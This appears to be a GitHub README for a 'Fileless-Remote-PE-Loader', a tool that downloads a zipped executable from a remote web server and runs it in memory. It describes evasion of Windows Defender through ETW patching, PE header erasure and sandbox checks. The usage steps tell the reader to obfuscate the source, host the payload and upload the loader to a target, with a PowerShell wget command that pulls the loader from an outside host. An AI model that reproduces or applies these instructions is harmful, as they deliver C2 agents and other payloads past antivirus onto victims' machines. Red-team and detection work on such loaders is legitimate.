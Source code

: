 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader allows to download, unzip, and execute directly in-memory a compressed offensive security tool (x64 PE executable embeded in a zip file) retrieved from a remote web server. It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a remote x64 PE) 
- ETW bypass in user-mode (patching EtwEventWrite functions)
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...


#### USAGE
- STEP 1 - Obfuscate the source code by removing all comments and 'printf' statements, renaming function and variable names, etc.

- STEP 2 - Compile the source code.  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
c:\path-to-project\Fileless-Remote-PE-Loader> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> rc appicon.rc
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe appicon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
---------
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and create in the same folder an "url.txt" file that contains the url to download your zip file.
		   When you will run the loader, it will download, unzip and execute in-memory your compressed PE file (x64 exe) located on your remote web server ('url.txt' file).
```
1. Download the loader
----------------------
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe"
c:\temp> echo "http://ip/file.zip" > C:\temp\url.txt

2. Run the loader with the arguments to pass to the PE
------------------------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
or
2.bis Run the loader without argument
-------------------------------------
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


